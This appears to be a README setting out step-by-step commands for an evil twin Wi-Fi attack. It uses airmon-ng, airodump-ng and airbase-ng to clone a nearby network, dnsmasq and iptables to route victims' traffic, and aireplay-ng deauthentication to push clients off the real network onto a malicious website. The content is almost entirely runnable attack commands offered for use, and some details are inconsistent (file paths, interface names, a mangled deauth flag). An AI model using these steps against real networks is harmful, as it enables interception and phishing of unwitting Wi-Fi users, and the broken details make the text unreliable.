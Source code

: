 # How to Setup the Evil Network:
This document outlines the steps we took in order to setup an evil twin access point and cause clients to be redirected to a malicious website.
# TODO
- need to capture the specific device with airodump-ng wlan1mon
- must make sure monitoring wlan1 is not connected to internet

# Prerequisites
- kali linux
- may need an external usb wifi adapter
- sudo apt-get instal dsniff

1. Update Device
	`sudo apt-get update`
	
2. Install dnsmasq
	`apt-get install dnsmasq`
	
3. Configure dns masq
	`mkdir /Desktop/eviltwin`
	`cd /Desktop/eviltwin`
	`touch dnsmasq.conf`
	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

4. Update NetworkManager.conf
	`vim /etc/NetworkManager/NetworkManager.conf`
	Add these lines to the end: 
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

5. Connect the usb network adapter
	see that it is connected with: `iwconfig`
	It should be named wlan0 or wlan1

5.5 Ensure the wireless card is not connected to internet
	`nmcli con`
	Disconnect from the network that is connected to our adapteriw
	`nmcli con down <UUID>`

6. Enable the wireless adapter
	`ifconfig wlan1 up`

7. Put the wireless card into network mode with airmon-ng
	- if you don't have the aircrack suite, google it and install it: https://www.aircrack-ng.org/doku.php?id=install_aircrack

	All the tutorials said to listen to airmon and `run airmon-ng check kill` as some services can interfere. But this never worked for me. So I ignore that suggestion.

	run: `airmon-ng start wlan1` to put card into monitor mode

8. Find the device to spoof and record the BSSID (mac address), channel, and ESSID
	 first update known manufacturer mac addresses of routers: `airodump-ng-oui-update`
	`airodump-ng wlan1mon`
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit `ctrl+c` and then copy that line to a text file

9. start up the evil twin AP (access point)
	Give the evil twin the same name as the network you are attacking for best results
	`airbase-ng -e "EvilTwinName" -c 11 wlan1mon`

10. Give the evil twin can access the internet.
	`ifconfig at0`
	give at0 an ip address: `ifconfig at0 10.0.0.1 up`

11. route all traffic through at0, this has had limited success.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

12. enable port forwarding: `echo 1 > /proc/sys/net/ipv4/ip_forward`

13. evil twin is now setup, now need to allocate ip addresses to clients
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`

14. NOW startup the webserver, see the tutorial for more info

15. Finally run the deauthorization attack and kick people off the legit network onto ours
	- TODO will add details on this later too

16. now deauthorize clients so they connect to our network
	aireplay-ng –deauth 0 -a <BSSID> wlan0mon

# Caveats
Only works for http websites, not https websites 

## Sources
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
This one is good too: rootsh3ll.com/evil-twin-attack/





